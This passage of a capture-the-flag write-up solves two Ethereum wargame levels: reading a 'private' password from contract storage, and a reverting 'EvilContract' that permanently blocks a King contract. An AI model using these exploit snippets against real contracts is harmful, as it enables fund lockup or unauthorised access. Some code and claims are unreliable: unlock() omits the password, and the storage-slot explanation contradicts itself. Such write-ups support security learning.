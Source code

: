 The private keyword of solidity is quite tricky. Private variables limit their scopes to the contract so they can't be viewed or accessed by other **contracts** logic. However anyone can view the variable values. This challenge is simple and all we have to understand is the storage is a key value store where the keys are from 0 to 2^256.

Here we can see got two storage variables `locked` and `password`. I highly encouraging reading the docs [Storage solidity Docs](https://docs.soliditylang.org/en/develop/internals/layout_in_storage.html?highlight=storage) to understand how these variables are layed out.

bytes32 will take a whole slot so it can share the slot with locked. We will have then :

*slot0*  `locked`
*solt1*  `password`

-----
**Exploitation**

```js
 const password = await web3.eth.getStorageAt(address, 1);
 await contract.unlock()
```

Challenge solved ✅

## King

**Challenge description**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

--------
**Analysis**

![King method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138016/26bbecde7b1eacd1313c83ad3cd9b8dc4aa55e3dacc9e5acf006ef155bcbc49c_x8mhfi.png)  

Pretty interesting, at first sight you might find this function unbreakable ( as I did ). But then a good look to the transfer method. I was thinking in term of a user who will interact with this contract. How about another contract ?
If we go back to the `fallback` challenge we talked about *fallback* methods. Here when we call `transfer` a callback function of the contract to whom we are transferring funds to will be triggered.

-----
**Exploitation**

1. Make our contract the king.
2. Our contract now revert the transaction and won't step down from the throne 😈.

```js
contract EvilContract { 

    function becomeKing(address victimAddress) public payable { 
        victimAddress.call{value:1000000000000000000}("");
    }

    function() external payable { // fallback function definition
        revert("The kingdom is mine now !");
    }
}
```
